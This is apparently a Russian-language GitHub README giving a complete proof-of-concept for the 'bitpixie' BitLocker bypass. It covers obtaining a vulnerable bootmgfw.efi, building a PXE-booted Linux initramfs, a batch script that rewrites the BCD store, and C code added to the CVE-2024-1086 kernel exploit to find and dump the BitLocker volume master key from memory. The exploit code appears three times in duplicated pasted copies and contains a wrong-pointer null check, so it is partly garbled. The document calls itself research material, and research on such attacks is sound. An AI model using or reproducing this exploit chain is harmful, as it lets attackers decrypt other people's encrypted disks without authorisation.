

# 0pts-bitpixie
Bitlocker decryptor - bitpixie proof-of-concept 

Что необходимо для атаки:
1. Добыть уязвимый bootmgfw.efi
2. Добыть Shimx64.efi
3. Добыть Kernel
4. Добыть grub
5. Написать PoC
6. Собрать initramfs
7. Автоматизировать копирование BCD
8. Настройка dnsmasq
9. Настройка SMB
10. Проводим атаку

Все файлы необходимые для атаки есть в репозитории за исключением, путь их добычи показан дабы продемонстрировать полный гайд проведения атаки, в научно-исследовательских целях
## Первым делом проверим возможна ли атака
На компьютере устройства должны быть
1. Включена возможность сетевой загрузки в bios
Как проверить?
- На экране ввода пароля удерживаем **Shift** и нажимаем **Перезагрузка**
- Переходим в **«Использовать устройство» → «UEFI: PXE IPv4 ...»**
Должна начаться PXE загрузка
2. При шифровании диска должен быть включен secureboot
Как проверить?
Зайти в консоль:
- На экране ввода пароля удерживаем **Shift** и нажимаем **Перезагрузка**
- Переходим в **«Поиск и устранение неисправностей» → «Дополнительные параметры» → «Командная строка» → Пропускаем зашифрованный диск**
Ввести команду
```
manage-bde -protectors -get c:
```
По результатам которой будет выведана информация об используемых PCRs, для реализации атаки должны быть только 7 11, в другом случае атака не реализуема
## Добыча уязвимого загрузчика windows bootmgfw.efi
Уязвимый загрузчик можно взять из любого образа windows выпущенного до ноября 2022 года (сборка 25236), когда были устранены уязвимости PXEboot.
Качаем к примеру этот образ Windows 10.0.19044.1466
Монтируем этот образ и достаём от туда *bootmgfw.efi* - загрузчик
```
sudo mount -o loop Downloads/Windows\ 10.0.19044.1466,\ Version\ 21H2\ \(January\ 2022x64_dvd.iso /mnt
```
Теперь скопируем 
```
sudo cp /mnt/sources/boot.wim /home/archi/Files/
```
Отмонитруем
```
sudo umount /mnt
```
Установим wimlib
```
sudo pacman -S wimlib 
```
Извлечём загрузчик
```
wimextract /home/archi/Files/boot.wim 1 /Windows/Boot/EFI/bootmgfw.efi --dest-dir=.
```
Таким простым образом мы получаем уязвимый загрузчик bootmgfw.efi
## Скачиваем Shimx64.efi
Скачиваем
```
wget "https://snapshot.debian.org/file/87601be283ef7209f6907d6e0df10aa29e5f4ede/shim-signed_1.44%2B15.8-1_amd64.deb" -O shimx-signed.deb
```
Извлекаем
```
dpkg-deb -x shimx-signed.deb shimx
```
копируем в нужную папку
```
cp shim/usr/lib/shim/shimx64.efi.signed /home/archi/Files/TFTP/shimx64.efi
```
## Скачиваем linux kernel
Signed Kernel: https://snapshot.debian.org/package/linux-signed-amd64/5.14.6%2B2/#linux-image-5.14.0-1-amd64_5.14.6-2
Извлекаем
```
dpkg -x linux-image-5.14.0-1-amd64_5.14.6-2_amd64.deb /home/archi/Files/TFTP/kernel_modules
```
Копируем linux kernel на TFTP
```
cp kernel_modules/boot/vmlinuz-5.14.0-1-amd64 /home/archi/Files/TFTP/linux
```
## Скачиваем grub
скачиваем grub
```
wget "https://snapshot.debian.org/archive/debian/20240716T023930Z/pool/main/g/grub-efi-amd64-signed/grub-efi-amd64-signed_1%2B2.12%2B5_amd64.deb" -O grubx.deb
```
Извлекаем
```
dpkg-deb -x grubx.deb grub
```
копируем в нужную папку
```
cp grub/usr/lib/grub/x86_64-efi-signed/grubnetx64.efi.signed /mnt/tftp/grubx64.efi
```
а так же создадим папку grub
```
mkdir Boot
```
напишем конфиг для grub grub.cfg
```
vim grub/grub.cfg
```
[со следующим содержимым](grub/grub.cfg)
```
set timeout=1
set default="0"
menuentry "Debian 5.14 with Alpine Initramfs" {
 set gfxpayload=keep
 linux   linux
 initrd  alpine-initrd.xz
 boot
}
```
## Допиливаем CVE-2024-1086
CVE-2024-1086: https://github.com/Notselwyn/CVE-2024-1086

Теперь нам необходимо дописать exploit, клонируем репу
```
git clone https://github.com/Notselwyn/CVE-2024-1086.git
```
откроем при помощи VSCode /home/archi/Files/TFTP/CVE-2024-1086/src/main.c
и в строку после 437 вставим написанный нами код для извлечения vmk
###  [PoС код](CVE-2024-1086/src/main.c#L439)
```
printf("[+] Starting search for VMK\n");
    void hexDump(const char *desc, void *addr, int len, int width) {
        int i, j;
        unsigned char *pc = (unsigned char*)addr;
    
        if (desc) printf("%s:\n", desc);
    
        for (i = 0; i < len; i += width) {
            // Выводим смещение в 4-значном шестнадцатеричном формате
            printf("  %04x  ", i);
    
            // Выводим hex-значения в указанном количестве байт (width)
            for (j = 0; j < width; j++) {
                if (i + j < len)
                    printf("%02x ", pc[i + j]);
                else
                    printf("   ");  // Заполняем пробелами, если строка короче width
            }
    
            printf(" ");
    
            // Выводим ASCII-представление
            for (j = 0; j < width; j++) {
                if (i + j < len) {
                    unsigned char c = pc[i + j];
                    printf("%c", (c >= 32 && c <= 126) ? c : '.');  // Только печатные символы
                }
            }
            printf("\n");
        }
    }

    for (unsigned long long l = 0; l < (CONFIG_PHYS_MEM / 0x200000); l++) {
        unsigned long long phys_base = l * 0x200000ull;

        for (unsigned short j = 0; j < 512; j++)
            pte_area[512 + j] = (phys_base + 0x1000ull * j) | 0x80000000000867;
        flush_tlb(_pmd_area, 0x400000);

    void* pmd_vmk_hdr_addr = memmem(pmd_data_area, 0x200000, "-FVE-FS-", 8);
    if (pmd_vmk_hdr_addr == NULL)
        continue;

    unsigned long long phys_vmk_hdr_addr = phys_base + (pmd_vmk_hdr_addr - pmd_data_area);

        printf("[+] found possible VMK base: %p -> %016llx\n", pmd_vmk_hdr_addr, phys_vmk_hdr_addr);
        hexDump("VMK Candidate", pmd_vmk_hdr_addr, 0x10*40, 0x10);
        uint32_t version = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4);
        uint32_t start = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4);
        uint32_t end = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4+4);
        
        if (version != 1) {
            printf("[+] VERSION MISMATCH! %d\n", version);
            continue;
        }
        if (end <= start) {
            printf("[+] NOT ENOUGH SIZE! %x, %x\n", start, end);
            continue;
        }

    void* pmd_vmk_addr = memmem(pmd_vmk_hdr_addr, end, "\x03\x20\x01\x00", 4);
        if (pmd_vmk_hdr_addr == NULL) {
            printf("[+] VMK-needle not found!\n");
            continue;
        }

        char* vmk = pmd_vmk_addr + 4;
        printf("[+] found VMK at: %p \n", vmk);

        // Теперь выводим VMK
        printf("VMK = ");
        for (int i = 0; i < 32; i++) {
            printf("%02x ", (unsigned char)vmk[i]);
        }
        printf("\n");

        // Открываем файл для записи в формате txt
        FILE* file = fopen("vmk.txt", "w");
        if (!file) {
            perror("[ERROR] Failed to open vmk.txt for writing");
            continue;
        }

        // Записываем VMK как строку шестнадцатеричных чисел
        for (int i = 0; i < 32; i++) {
            fprintf(file, "%02x", (unsigned char)vmk[i]);
        }

        fclose(file);
        printf("[+] VMK saved to 'vmk.txt'. press ctrl+c to Exiting program.\n");
        getchar(); // Ожидаем нажатия клавиши Enter
    }    printf("[+] Starting search for VMK\n");

    void hexDump(const char *desc, void *addr, int len, int width) {
        int i, j;
        unsigned char *pc = (unsigned char*)addr;
    
        if (desc) printf("%s:\n", desc);
    
        for (i = 0; i < len; i += width) {
            // Выводим смещение в 4-значном шестнадцатеричном формате
            printf("  %04x  ", i);
    
            // Выводим hex-значения в указанном количестве байт (width)
            for (j = 0; j < width; j++) {
                if (i + j < len)
                    printf("%02x ", pc[i + j]);
                else
                    printf("   ");  // Заполняем пробелами, если строка короче width
            }
    
            printf(" ");
    
            // Выводим ASCII-представление
            for (j = 0; j < width; j++) {
                if (i + j < len) {
                    unsigned char c = pc[i + j];
                    printf("%c", (c >= 32 && c <= 126) ? c : '.');  // Только печатные символы
                }
            }
            printf("\n");
        }
    }

        for (unsigned long long l = 0; l < (CONFIG_PHYS_MEM / 0x200000); l++) {
        unsigned long long phys_base = l * 0x200000ull;

        for (unsigned short j = 0; j < 512; j++)
            pte_area[512 + j] = (phys_base + 0x1000ull * j) | 0x80000000000867;
        flush_tlb(_pmd_area, 0x400000);

    void* pmd_vmk_hdr_addr = memmem(pmd_data_area, 0x200000, "-FVE-FS-", 8);
        if (pmd_vmk_hdr_addr == NULL)
        continue;

    unsigned long long phys_vmk_hdr_addr = phys_base + (pmd_vmk_hdr_addr - pmd_data_area);

        printf("[+] found possible VMK base: %p -> %016llx\n", pmd_vmk_hdr_addr, phys_vmk_hdr_addr);
        hexDump("VMK Candidate", pmd_vmk_hdr_addr, 0x10*40, 0x10);
        uint32_t version = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4);
        uint32_t start = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4);
        uint32_t end = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4+4);
        
        if (version != 1) {
            printf("[+] VERSION MISMATCH! %d\n", version);
            continue;
        }
        if (end <= start) {
            printf("[+] NOT ENOUGH SIZE! %x, %x\n", start, end);
            continue;
        }

        void* pmd_vmk_addr = memmem(pmd_vmk_hdr_addr, end, "\x03\x20\x01\x00", 4);
        if (pmd_vmk_hdr_addr == NULL) {
            printf("[+] VMK-needle not found!\n");
            continue;
        }

        char* vmk = pmd_vmk_addr + 4;
        printf("[+] found VMK at: %p \n", vmk);

        // Теперь выводим VMK
        printf("VMK = ");
        for (int i = 0; i < 32; i++) {
            printf("%02x ", (unsigned char)vmk[i]);
        }
        printf("\n");

        // Открываем файл для записи в формате txt
        FILE* file = fopen("vmk.txt", "w");
        if (!file) {
            perror("[ERROR] Failed to open vmk.txt for writing");
            continue;
        }

        // Записываем VMK как строку шестнадцатеричных чисел
        for (int i = 0; i < 32; i++) {
            fprintf(file, "%02x", (unsigned char)vmk[i]);
        }

        fclose(file);
        printf("[+] VMK saved to 'vmk.txt'. press ctrl+c to Exiting program.\n");
        getchar(); // Ожидаем нажатия клавиши Enter
    }    printf("[+] Starting search for VMK\n");
    
    void hexDump(const char *desc, void *addr, int len, int width) {
        int i, j;
        unsigned char *pc = (unsigned char*)addr;
    
        if (desc) printf("%s:\n", desc);
    
        for (i = 0; i < len; i += width) {
            // Выводим смещение в 4-значном шестнадцатеричном формате
            printf("  %04x  ", i);
    
            // Выводим hex-значения в указанном количестве байт (width)
            for (j = 0; j < width; j++) {
                if (i + j < len)
                    printf("%02x ", pc[i + j]);
                else
                    printf("   ");  // Заполняем пробелами, если строка короче width
            }
    
            printf(" ");
    
            // Выводим ASCII-представление
            for (j = 0; j < width; j++) {
                if (i + j < len) {
                    unsigned char c = pc[i + j];
                    printf("%c", (c >= 32 && c <= 126) ? c : '.');  // Только печатные символы
                }
            }
            printf("\n");
        }
    }

        for (unsigned long long l = 0; l < (CONFIG_PHYS_MEM / 0x200000); l++) {
        unsigned long long phys_base = l * 0x200000ull;

        for (unsigned short j = 0; j < 512; j++)
            pte_area[512 + j] = (phys_base + 0x1000ull * j) | 0x80000000000867;
        flush_tlb(_pmd_area, 0x400000);

    void* pmd_vmk_hdr_addr = memmem(pmd_data_area, 0x200000, "-FVE-FS-", 8);
        if (pmd_vmk_hdr_addr == NULL)
        continue;

    unsigned long long phys_vmk_hdr_addr = phys_base + (pmd_vmk_hdr_addr - pmd_data_area);

        printf("[+] found possible VMK base: %p -> %016llx\n", pmd_vmk_hdr_addr, phys_vmk_hdr_addr);
        hexDump("VMK Candidate", pmd_vmk_hdr_addr, 0x10*40, 0x10);
        uint32_t version = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4);
        uint32_t start = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4);
        uint32_t end = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4+4);
        
        if (version != 1) {
            printf("[+] VERSION MISMATCH! %d\n", version);
            continue;
        }
        if (end <= start) {
            printf("[+] NOT ENOUGH SIZE! %x, %x\n", start, end);
            continue;
        }

        void* pmd_vmk_addr = memmem(pmd_vmk_hdr_addr, end, "\x03\x20\x01\x00", 4);
        if (pmd_vmk_hdr_addr == NULL) {
            printf("[+] VMK-needle not found!\n");
            continue;
        }

        char* vmk = pmd_vmk_addr + 4;
        printf("[+] found VMK at: %p \n", vmk);

        // Теперь выводим VMK
        printf("VMK = ");
        for (int i = 0; i < 32; i++) {
            printf("%02x ", (unsigned char)vmk[i]);
        }
        printf("\n");

        // Открываем файл для записи в формате txt
        FILE* file = fopen("vmk.txt", "w");
        if (!file) {
            perror("[ERROR] Failed to open vmk.txt for writing");
            continue;
        }

        // Записываем VMK как строку шестнадцатеричных чисел
        for (int i = 0; i < 32; i++) {
            fprintf(file, "%02x", (unsigned char)vmk[i]);
        }

        fclose(file);
        printf("[+] VMK saved to 'vmk.txt'. press ctrl+c to Exiting program.\n");
        getchar(); // Ожидаем нажатия клавиши Enter
    }
```


Скомплиируем наш exploit
теперь прейдём в папку с exploit и скомпилируем бинарный файл
```
cd CVE-2023-21563 && make
```
## Сборка initrd
Создадим initrd файл при помощи alpine-initrd
```
git clone https://github.com/lsiudut/alpine-initrd.git
```
Теперь у нас есть всё необходимое для дальнейшей настройки
Скопируем все файлы в нужную папку alpine-initrd/docker/
```
sudo cp -r kernel-modules/ CVE-2024-1086/ alpine-initrd/docker/
```
отредактируем Docker файл
```
vim alpine-initrd/docker/Dockerfile
```
[Со следующим содержимым](alpine-initrd/docker/Dockerfile)
```
FROM alpine:3.4

COPY build.sh /
COPY init /
COPY dhcp.start /

# Копируем наше linux kernel  
COPY kernel-modules/lib/modules/5.14.0-1-amd64/ /lib/modules/5.14.0-1-amd64/
# Копируем наш кастомный exploit для извлечения vmk ключей  
COPY CVE-2024-1086/ /root/CVE-2024-1086

CMD /build.sh
```
Теперь добавим в скрипт создания initrd который исполняет внутри контейнера и лежит в папку c Dockerfile ./build.sh
```
vim alpine-initrd/docker/build.sh
```
в конец документа [следующие строки ](alpine-initrd/docker/build.sh#L33)
```
#Создаём папку для хранения модулей для нашей версии ядра
mkdir -p $ROOTDIR/lib/modules/5.14.0-1-amd64
#Копируем модули в созданную папку
cp -r lib/modules/5.14.0-1-amd64/* $ROOTDIR/lib/modules/5.14.0-1-amd64/
#Создаём папку для нашего exploit
mkdir -p $ROOTDIR/root/CVE-2024-1086
#Копируем наш exploit для извлечения vmk
cp -r root/CVE-2024-1086/* $ROOTDIR/root/CVE-2024-1086/

# Генерируем зависимости для модулей ядра
chroot $ROOTDIR depmod -a 5.14.0-1-amd64
```

Для работы alpine нужен docker установим его
```
sudo pacman -S docker
```
Включим автозапуск и запустим
```
sudo systemctl enable --now docker.service
```
Теперь запускаем ./build.sh который лежит в директории alpine-initrd от имени sudo
```
sudo alpine-initrd/build.sh
```
Наш initrd файл готов протестировать его можно при помощи qemu
```
qemu-system-x86_64 \
  -kernel linux \
  -initrd alpine-initrd.xz \
  -append "console=ttyS0" \
  -nographic -m 1024M
```
Login: root
Password: "no password"

Теперь переместим необходимые файлы в папку grub
```
mv alpine-initrd.xz linux grub
```
## Автоматизировать копирование BCD
Для автоматизации создадим [скрипт](script_copy_and_mod_BCD.bat)
```
vim script_copy_and_mod_BCD.bat
```
#### код
```
@echo off
setlocal enabledelayedexpansion

:: Путь к SMB-шаре
set SMB_SHARE=B:

mountvol S: /s

:: Копирование EFI на SMB-шар
robocopy S:/EFI %SMB_SHARE%/EFI /MIR
echo Copied EFI to SMB share

cd \

bcdedit /export BCD_modded
echo Export successful

bcdedit /store BCD_modded /create /d "softreboot" /application startup>GUID.txt
echo GUID save successful

For /F "tokens=2 delims={}" %%i in (GUID.txt) do (set REBOOT_GUID=%%i)
del GUID.txt

echo GUID parsed into REBOOT_GUID successful

bcdedit /store BCD_modded /set  path "\shimx64.efi"
bcdedit /store BCD_modded /set  device boot
bcdedit /store BCD_modded /set  pxesoftreboot yes

echo Configured shimx64.efi and pxesoftreboot successful

bcdedit /store BCD_modded /set {default} recoveryenabled yes
bcdedit /store BCD_modded /set {default} recoverysequence 
bcdedit /store BCD_modded /set {default} path "\\"
bcdedit /store BCD_modded /set {default} winpe yes

echo Configured recoveryenabled, winpe, and boot path successful

bcdedit /store BCD_modded /displayorder  /addlast

echo BCD file successfully created!

:: Копирование BCD_modded на SMB-шар

move BCD_modded %SMB_SHARE%\Boot\BCD

echo Copied BCD_modded to SMB share

echo All operations completed successfully!
```
а так же создадим папку Boot в папке TFTP
```
mkdir Boot
```

## Настройка dnsmasq
Установим dnsmasq
```
sudo pacman -S dnsmasq
```
Установим в ручную IP адрес 10.13.37.100 любым способом к примеру через GUI
![[Pasted image 20250205173039.png]]
Запустим dhcp сервер
```
sudo dnsmasq --no-daemon \
    --interface=eno2 \
    --dhcp-range=10.13.37.100,10.13.37.101,255.255.255.0,1h \
    --dhcp-boot=bootmgfw.efi \
    --enable-tftp \
    --tftp-root=/home/archi/Files/TFTP \
    --log-dhcp
```
## Настройка SMB
Поднимем нашу smb share
```
sudo smbserver.py -smb2support share /home/archi/Files/TFTP
```

## Проводим атаку
## Загружаемся в Windows в среда восстановления

- Подключим два устройства кабелем Ethernet
- На экране ввода пароля удерживаем **Shift** и нажимаем **Перезагрузка**
- Переходим в **«Поиск и устранение неисправностей» → «Дополнительные параметры» → «Командная строка» → Пропускаем зашифрованный диск**
Далее нам нужно активировать сетевой стек
```
wpeutil InitializeNetwork
```
После подключаем smb share
```
net ues B: \\10.13.37.100\share
```
Копируем созданный скрипт
```
copy B:\script_copy_and_mod_BCD.bat
```
Запустим скрипт, по завершению которого на share появится файл BCD
![[Pasted image 20250626202822.png]]
Далее перезагружаем компьютер, чтобы диск был расшифрован и ключ BitLocker был в памяти, и повторяем процедуру входа в среду восстановления
- На экране ввода пароля удерживаем **Shift** и нажимаем **Перезагрузка**
- Переходим в **«Использовать устройство» → «UEFI: PXE IPv4 ...»**
Далее ждём пока загрузиться наш подготовленный initramfs
После загрузки логинимся
Login: root
Password: "no password"
Заходим в папку CVE-2024-1086 и запускаем exploit

**Тадам, видим ключ шифрования**
